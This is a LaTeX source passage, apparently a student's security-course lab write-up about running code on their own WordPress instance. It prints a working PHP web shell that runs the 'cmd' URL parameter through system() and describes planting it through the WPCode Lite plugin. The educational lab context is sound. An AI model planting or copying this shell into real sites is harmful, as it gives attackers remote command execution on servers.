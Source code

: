 \documentclass[12pt, a4paper]{article}
\begin{document}
		\paragraph{}
			The idea is to upload code to the server that it knows how to execute and persuading it to execute it.
		\paragraph{Uploading and executing code to the server}
			\paragraph{}
				The first thing I would do to make the server execute my code, is to add some PHP code to the 404 page of the website that gets executed every time a URL is requested from the server that does not exist. But the feature of editing these pages, was apparently removed for this instance. Yet our lecturer used my Wordpress instance to run a test of his self-made Wordpress theme and left a handy extension installed on my server: \textit{WPCode Lite}.\\
				\includegraphics[width=\textwidth]{wpcode.png}
				Using this extension, I created a new PHP code snippet with the following content:
				\begin{lstlisting}[style=mylisting, language=PHP]
echo "<pre style=\"width:100%;\">\n";
if(isset($_GET['cmd']))
{
    system($_GET['cmd']);
}
echo "</pre>\n";
				\end{lstlisting}
				\includegraphics[width=\textwidth]{code-snippet.png}
				I got the code from \href{https://www.revshells.com}{https://www.revshells.com} under "PHP cmd" and adapted the HTML code around it to my needs. This kind of code is called a web shell because you can send commands to the server, which are executed in a shell (command line) on the server, and the results are shown on the website. They are easy to use and difficult to detect as a defender.\\
\end{document}
